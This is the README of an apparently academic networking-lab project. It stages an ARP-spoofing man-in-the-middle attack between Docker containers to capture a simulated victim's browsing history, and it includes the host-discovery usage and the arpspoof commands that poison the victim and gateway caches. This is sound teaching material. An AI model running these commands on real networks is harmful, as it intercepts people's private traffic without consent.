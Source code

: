 <h2>Table of Contents</h2>

- [Goal](#goal)
- [Description](#description)
- [Technical Specifications](#technical-specifications)
  - [More About Docker](#more-about-docker)
- [How to Run](#how-to-run)
  - [Step 1: Host Discovery](#step-1-host-discovery)
  - [Step 2: ARP Spoofing](#step-2-arp-spoofing)
    - [Attacking Container](#attacking-container)
    - [Victim Container](#victim-container)
    - [Gateway Container](#gateway-container)
- [Cheat Sheet](#cheat-sheet)
  - [Docker Actions](#docker-actions)
- [Authors](#authors)

## Goal

This project involves developing a man-in-the-middle attack to capture the web browsing history of a remote target computer. The project is divided into three main stages:

Host Discovery: Develop a tool to identify active hosts in the network by performing a scan similar to a ping sweep, mapping the connected devices.

Execution of the Attack: After identifying the target host, execute an ARP Spoofing attack with man-in-the-middle using the arpspoof tool, inserting the attacker into the communication flow between the target and the router.

Traffic Monitoring: Create an application to monitor the web browsing traffic of the target host, capturing HTTP and DNS packets to track the browsing history.

The goal is to intercept and analyze network traffic to capture the target’s web activity.

## Description

This project involves using a sniffer program like Wireshark to monitor the entire network traffic of a host and analyze its content. By inspecting DNS and HTTP packets, it’s possible to reconstruct the web browsing history of a device. However, this typically requires physical access to the host. To remotely monitor other devices on a local network, a man-in-the-middle attack can be employed, exploiting common vulnerabilities in local networks.

In this project, ARP Spoofing will be used to intercept network traffic and monitor the web browsing history of the target hosts. The implementation is divided into three main stages:

Development of the Scanning Application: Create a tool to identify active hosts in the local network (Annex I).

Execution of ARP Spoofing with Man-in-the-Middle: Set up an attack that places the attacker between the target host and the router (Annex II).

Development of Traffic Analysis Application: Create a tool to capture and analyze the web browsing history of the attacked hosts (Annex III).

The objective is to intercept and analyze the network traffic to reconstruct the target’s web browsing history.

For more specific business rules and project description, please refer to the [full document](T2_20242.pdf).

## Technical Specifications

This project was developed using [Python](https://www.python.org/) with [Docker](#docker) containers.

### More About [Docker](https://www.docker.com/)

Docker is used to create containers for the application and the database. It is used to create a development environment that is as close as possible to the production environment.
It is highly recommended to use Docker to run the application.

We have a [`Dockerfile`](Dockerfile) that contains the configuration for the application container and a [`docker-compose`](docker-compose.yml) file which builds three instances of the application.

For some useful Docker commands, [click here](#docker-actions).

## How to Run

Now that you have all the necessary tools installed, you can run the application.
To start the application with Docker, simply run the following command:

```bash
$ docker compose up --build -d
```

That's it! You should now have three instances of the application running on your machine, on ports 8080, 8081, and 8082.

To access the application machines, simply go to http://localhost:8080, http://localhost:8081, and http://localhost:8082.

To follow the next steps, you will need to access the containers and open the LXTerminal, which should be the third icon on the tray.

To check that everything appears to be working, you can run the following commands:

```bash
# Go to root
$ cd
# Check the files (you should see the python project files)
$ ls
```

### Step 1: Host Discovery

To check which hosts are active in the network, you can run the following command in any of the containers:

```bash
$ python3 host_discovery.py <network/mask> <timeout_ms>
```

Obs.: <network/mask> has to follow the network IP address, not the host IP address, so for example: `172.20.0.0/24` if the host IP is `172.20.0.4`.
The <timeout_ms> is the time in milliseconds that the program will wait for a response from the hosts.

### Step 2: ARP Spoofing

To perform the ARP Spoofing attack, you will need to access each container and run the following commands:
To make it easier, we adopted the standard of using localhost:8080 as the `attacker`, localhost:8081 as the `gateway`/router, and localhost:8082 as the `victim`.

To get the container IPs, you can run the following command on your original environment (the one you ran the `docker compose up` command):

```bash
$ scripts/get-container-ips.sh
```

You should receive a table with the IP addresses, one for each container. Usually the end of the container IPs will be `.2`, `.3` and `.4` in a random order.
So for example, you will receive an output like this:

```bash
ID      Address         Hostname
2       172.20.0.2      tf_arpspoofing-labredes2-1
3       172.20.0.3      tf_arpspoofing-labredes3-1
1       172.20.0.4      tf_arpspoofing-labredes1-1
```

In this case, the attacker's IP is `172.20.0.4`, the gateway's IP is `172.20.0.2`, and the victim's IP is `172.20.0.3`.

#### Attacking Container

```bash
# Attack the victim
$ arpspoof -i eth0 -t 172.20.0.3 172.20.0.2
# Attack the gateway
$ arpspoof -i eth0 -t 172.20.0.2 172.20.0.3
```

#### Victim Container

```bash
# Ping gateway (to generate traffic)
$ ping 172.20.0.2
# Check the ARP table
$ arp -n
```

#### Gateway Container

```bash
# Check the ARP table
$ arp -n
```

## Cheat Sheet

### Docker Actions

```bash
# Build the containers
$ docker compose up --build

# List all containers
$ docker ps

# Access the container
$ docker exec -it {{container_id}} sh
```

## Authors

- [Carolina Ferreira](https://github.com/carolmicfer)
- [Felipe Freitas Silva](https://github.com/felipefreitassilva)
- [Luiza Heller Kroeff Plá](https://github.com/LuHellerKP)
- [Mateus Campos Caçabuena](https://github.com/mateuscacabuena)
